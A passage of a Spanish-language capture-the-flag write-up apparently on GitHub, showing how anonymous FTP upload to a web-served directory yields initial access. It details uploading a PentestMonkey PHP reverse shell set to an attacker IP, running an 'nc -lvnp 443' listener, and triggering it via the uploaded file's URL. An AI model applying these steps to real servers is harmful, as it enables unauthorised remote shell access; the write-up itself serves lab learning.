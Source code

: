 El directorio /files es un hallazgo significativo y es el siguiente objetivo a explorar. La redirección 301 implica que existe un directorio accesible en esa ruta.

Por lo que explorando el directorio vemos que puede ser accesible para subir archivos o sea podriamos subir un reverse shell.

<img width="656" height="237" alt="image" src="https://github.com/user-attachments/assets/bcd84260-3060-408b-90c3-bdb438f77f0a" />

## Paso 5: Obtención de Acceso Inicial (Shell de Inversa)

El escaneo con Gobuster reveló el directorio `/files` (Paso 4), y al explorarlo, se descubrió que contenía el subdirectorio `/files/ftp`. Dado que el contenido de `/files/ftp` era visible a través del navegador web, se sospechó que este directorio mapeaba directamente al directorio de inicio accesible por **FTP Anónimo** (puerto 21).

La clave para la explotación es la capacidad de subir archivos al servidor FTP que luego pueden ser ejecutados a través del servidor web.

### 5.1 Creación y Carga del Reverse Shell

1.  **Crear el Payload:** Se utilizó el conocido *reverse shell* de **PentestMonkey** en PHP (`php-reverse-shell.php`). Se modificó el archivo para configurar la dirección IP de la máquina atacante (`$ip`) y el puerto de escucha (`$port`).

    * **IP Atacante:** `10.8.24.253` (ejemplo de IP de la VPN/Tunel)
    * **Puerto de Escucha:** `443`

3.  **Subir el Archivo:** Se utilizó la conexión FTP anónima establecida en el **Paso 3** para subir el payload al directorio **`ftp`**. Este directorio era navegable y, crucialmente, tenía permisos de escritura.

    ```bash
    ftp> cd ftp
    # 250 Directory successfully changed.
    ftp> put php-reverse-shell.php
    # 226 Transfer complete.
    ```

<img width="1558" height="379" alt="creo un reverseshell el de pentestmonkey y lo transfiero al directorio ftp" src="https://github.com/user-attachments/assets/f74ef63a-04d5-496b-9fbd-7284e6ba71f6" />

### 5.2 Ejecución del Shell

1.  **Configurar el Listener:** En la máquina atacante, se configuró un *listener* (escucha) utilizando **Netcat** en el puerto 443 para esperar la conexión de la *shell* de inversa.

    ```bash
    nc -lvnp 443
    ```

2.  **Activar el Shell:** Se accedió al archivo recién subido a través del navegador web, ejecutando así el script PHP. La ruta de acceso fue:
    * `http://10.10.200.64/files/ftp/php-reverse-shell.php`
